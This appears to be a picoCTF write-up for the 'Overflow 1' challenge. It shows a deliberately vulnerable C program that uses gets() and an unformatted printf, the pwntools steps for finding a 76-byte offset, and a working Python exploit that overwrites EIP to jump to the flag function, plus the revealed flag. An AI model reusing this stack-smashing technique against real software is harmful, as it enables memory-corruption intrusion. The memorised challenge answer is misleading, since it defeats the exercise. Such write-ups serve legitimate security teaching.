

# Overflow 1 (Binary Exploitation)



We are given the hint to overflow the buffer and control EIP to return the program to the flag function. Heres the source:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

The vulnerable function is **gets** in the vuln() function. Lets first start by acquiring the address of the flag function then we can work on controlling EIP. BUFFSIZE set at 64 so lets tinker around until we can control eip.

Using pwntools we can easily find the address of flag by searching the symbols:

```python
e = ELF('./vuln')
flag = e.symbols['flag']
```

This will make it very easy to craft our payload

Now lets get our offset required to control EIP

```bash
pwn cyclic 300 | strace ./vuln
```

```
write(1, "Woah, were jumping to 0x61616174"..., 35Woah, were jumping to 0x61616174 !
) = 35
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x61616174} ---
+++ killed by SIGSEGV +++
Segmentation fault
```
Okay so lets find the offset of 0x61616174 using pwntools again

```bash
pwn cyclic -l 0x61616174
```
The result is: **76**

Lets now update our our script and test.

```python
#!/usr/bin/env python

from pwn import *

#Set the process and ELF
p = process('./vuln')
e = ELF('./vuln')

#Define the return address for flag
flag = e.symbols['flag']

#Offset from pwn cyclic
offset = 76

#Craft our payload
payload = ''
payload+= 'A'*offset
payload+= p32(flag)

#Send payload and set interactive mode in order to receive the flag output
p.sendline(payload)
p.interactive()
```
Creating a local flag.txt and testing on locally works perfectly. Lets ssh into the shell, copy our script to a temp folder and run.

<details>
	<summary>Flag</summary>

picoCTF{n0w_w3r3_ChaNg1ng_r3tURn56b6d6d97}
</details>

